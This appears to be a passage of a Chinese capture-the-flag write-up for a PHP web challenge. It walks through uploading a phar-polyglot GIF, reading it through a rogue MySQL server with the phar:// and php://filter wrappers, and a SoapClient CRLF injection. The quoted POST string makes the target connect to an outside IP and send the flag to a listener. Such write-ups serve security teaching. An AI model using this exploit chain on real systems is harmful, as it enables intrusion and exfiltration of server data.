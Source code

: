通过 phar.php 生成 1.gif，通过上传页面上传得到路径。
记录路径为 

upload/122c4a55d1a70cef972cac3982dd49a6/b5e9b4f86ce43ca65bd79c894c4a924c.gif

在 rogue mysql 服务器上读取文件的位置使用 phar 协议读取

phar://./upload/122c4a55d1a70cef972cac3982dd49a6/b5e9b4f86ce43ca65bd79c894c4a924c.gif

去 func.php 提交
php://filter/read=convert.base64-encode/resource=phar://./upload/122c4a55d1a70cef972cac3982dd49a6/b5e9b4f86ce43ca65bd79c894c4a924c.gif

就可以在自己服务器监听的端口收到 flag 了。

主要是 phar soap client crlf 那里
```php
$post_string = 'admin=1&clazz=Mysqli&func1=init&arg1=&func2=real_connect&arg2[0]=106.14.153.173&arg2[1]=root&arg2[2]=123&arg2[3]=test&arg2[4]=3306&func3=query&arg3=select%201&ip=106.14.153.173&port=2015';
```

ip & port 两个参数是用来获取 flag 的

